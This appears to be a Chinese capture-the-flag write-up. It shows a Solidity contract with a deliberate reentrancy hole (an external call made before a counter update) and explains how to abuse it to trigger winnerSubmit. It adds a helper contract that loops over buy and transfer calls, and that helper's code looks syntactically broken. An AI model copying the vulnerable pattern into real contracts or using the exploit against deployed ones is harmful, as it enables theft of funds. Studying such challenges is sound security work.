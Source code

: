 ```
    
    function sell(uint256 _amount) public returns (bool success){
        require(_amount >= 100);
        require(sellTimes[msg.sender] > 0);
        require(balanceOf[msg.sender] >= _amount);
        require(address(this).balance >= _amount);
        msg.sender.call.value(_amount)();
        _transfer(msg.sender, address(this), _amount);
        sellTimes[msg.sender] -= 1;
        return true;
    }
    
    function winnerSubmit() public returns (bool success){
        require(winner[msg.sender] == false);
        require(sellTimes[msg.sender] > 100);
        winner[msg.sender] = true;
        emit Win(msg.sender,true);
        return true;
    }
    
    function kill(address _address) public onlyOwner {
        selfdestruct(_address);
    }
    
    function eth_balance() public view returns (uint256 ethBalance){
        return address(this).balance;
    }
    
}

```  
  
****  
触发flag在函数winnerSubmit函数中，需要sellTimes大于100，在sell函数中有对sellTimes的改变，并且sellTimes的改变发生在call之后，可以尝试利用重入漏洞，每调用一次sell就减去1，但是在减之前会对sellTime是否大于0进行判断。  
  
  
调用sell函数需要调用者余额大于100且合约余额大于100，对于调用者余额大于100，使用函数buy，每次传入1wei即可获取1余额，但是买之前需要余额为0，所以在调用完sell后使用transfer将余额转到另一个账户上，重复100次，即可满足条件。  
```
contract collect {
    address ad = 0x1;
    address h4ck = 0x2;

    function go (uint count) {
        for (uint i=0;i<count;i++) {
            h4ck.call(bytes4(keccak256("buy()"))).value(1)();
            h4ck.call(bytes4(keccak256("transfer(address,uint256)")) ad, 1);
        }
    }
}

```  
  